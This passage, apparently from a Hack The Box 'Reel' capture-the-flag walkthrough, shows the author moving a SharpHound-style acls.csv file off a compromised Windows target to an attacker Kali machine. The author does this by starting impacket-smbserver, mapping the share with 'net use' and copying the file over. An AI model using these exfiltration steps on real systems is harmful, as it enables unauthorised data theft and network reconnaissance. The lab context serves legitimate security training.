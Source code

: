 Let's transfer this back at us using SMB server.

Start SMB server on Kali machine:

`impacket-smbserver share .`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/reel/image-23.png)

Connect to the SMB server from the target machine:

`net use * \\10.10.14.36\share`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/reel/image-24.png)

Transfer **acls.csv** file back at us:

`copy acls.csv Z:\`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/reel/image-26.png)

Let's take a look at the file.

This files seems to be result of SharpHound but in CSV format:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/reel/image-25.png)
